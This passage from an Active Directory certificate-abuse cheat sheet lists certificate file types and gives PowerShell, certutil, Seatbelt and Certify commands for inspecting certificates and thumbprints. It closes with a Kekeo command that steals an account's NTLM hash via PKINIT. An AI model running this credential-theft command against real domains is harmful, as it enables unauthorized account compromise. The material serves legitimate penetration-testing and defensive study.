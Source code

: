 Some other certificate-related file extensions:

| File Extension             | Description                                                               |
|----------------------------|---------------------------------------------------------------------------|
| `.key`                     | The private key.                                                          |
| `.crt`/`.cer`              | The certificate.                                                          |
| `.csr`                     | Signing request file. Does not contain certificates or keys.              |
| `.jks`/`.keystore`/`.keys` | Java Keystore. May contain certificates + private keys used by Java apps. |

List EKUs for a certificate with PowerShell:

```
PS > $CertPath = "C:\Users\snovvcrash\cert.pfx"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.EnhancedKeyUsageList
```

Parse `.pfx` with certutil:

```
Cmd > certutil.exe -dump -v cert.pfx
```

Correlate a certificate with a CA thumbprint on the host and in AD:

```
# Get cert's thumbprint
PS > $CertPath = "C:\Users\snovvcrash\cert.p12"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.Thumbprint

# Match it with CA certs' thumbprints trusted by the current host
Cmd > .\Seatbelt.exe -q CertificateThumbprints

# Match it with CA certs' thumbprints from AD
Cmd > .\Certify.exe find /quiet
```




## Steal NTLM via PKINIT (THEFT5)

Request NTLM hash when the account is authenticated with a TGT through PKINIT with Kekeo:

```
Cmd > .\kekeo.exe "tgt::pac /caname:CorpCA /domain:megacorp.local /subject:snovvcrash /castore:current_user" "exit"
```


